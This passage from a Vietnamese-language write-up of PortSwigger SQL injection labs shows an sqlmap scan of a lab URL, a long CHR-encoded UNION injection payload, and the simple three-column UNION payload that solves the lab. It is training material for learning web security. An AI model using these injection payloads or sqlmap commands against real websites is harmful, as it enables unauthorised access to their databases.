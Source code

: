 mục đích của chúng ta đã hoàng thành và mình cũng đã giải được bài lab này

![image](https://hackmd.io/_uploads/S1Dv9ci9T.png)

### SQLMAP

- mình đã làm lại bài này với sqlmap

đầu liên mình dùng lệnh sau để quét

```sql!
sqlmap -u https://0a1000b60490bae5807117cd00b700f6.web-security-academy.net/filter?category=Lifestyle  --batch
```

và mình được

![ảnh](https://hackmd.io/_uploads/rydBtGm26.png)

và được database dùng PostgreSQL và có thể khai thác với kiểu tấn công UNION với 3 cột

dùng payload mà sql cho mình in được dòng chữ **qkqpqsJoqpnIRhMdUOashnnrPzQcseUKTwYmOlUHQLRvMqxqvq** ra màn mình

```sql!
https://0a1000b60490bae5807117cd00b700f6.web-security-academy.net/filter?category=Lifestyle%27%20UNION%20ALL%20SELECT%20NULL,(CHR(113)%7C%7CCHR(107)%7C%7CCHR(113)%7C%7CCHR(112)%7C%7CCHR(113))%7C%7C(CHR(115)%7C%7CCHR(74)%7C%7CCHR(111)%7C%7CCHR(113)%7C%7CCHR(112)%7C%7CCHR(110)%7C%7CCHR(73)%7C%7CCHR(82)%7C%7CCHR(104)%7C%7CCHR(77)%7C%7CCHR(100)%7C%7CCHR(85)%7C%7CCHR(79)%7C%7CCHR(97)%7C%7CCHR(115)%7C%7CCHR(104)%7C%7CCHR(110)%7C%7CCHR(110)%7C%7CCHR(114)%7C%7CCHR(80)%7C%7CCHR(122)%7C%7CCHR(81)%7C%7CCHR(99)%7C%7CCHR(115)%7C%7CCHR(101)%7C%7CCHR(85)%7C%7CCHR(75)%7C%7CCHR(84)%7C%7CCHR(119)%7C%7CCHR(89)%7C%7CCHR(109)%7C%7CCHR(79)%7C%7CCHR(108)%7C%7CCHR(85)%7C%7CCHR(72)%7C%7CCHR(81)%7C%7CCHR(76)%7C%7CCHR(82)%7C%7CCHR(118)%7C%7CCHR(77))%7C%7C(CHR(113)%7C%7CCHR(120)%7C%7CCHR(113)%7C%7CCHR(118)%7C%7CCHR(113)),NULL--
```

![ảnh](https://hackmd.io/_uploads/SJK6iGm2a.png)

![ảnh](https://hackmd.io/_uploads/B1DwszmnT.png)

nhưng lab để solve lab cần dùng lệnh UNION sau

```sql!
' UNION SELECT NULL, NULL, NULL -- -
```

![ảnh](https://hackmd.io/_uploads/HJpmTzX2p.png)

## 4. Lab: SQL injection UNION attack, finding a column containing text

link: https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text

### Đề bài
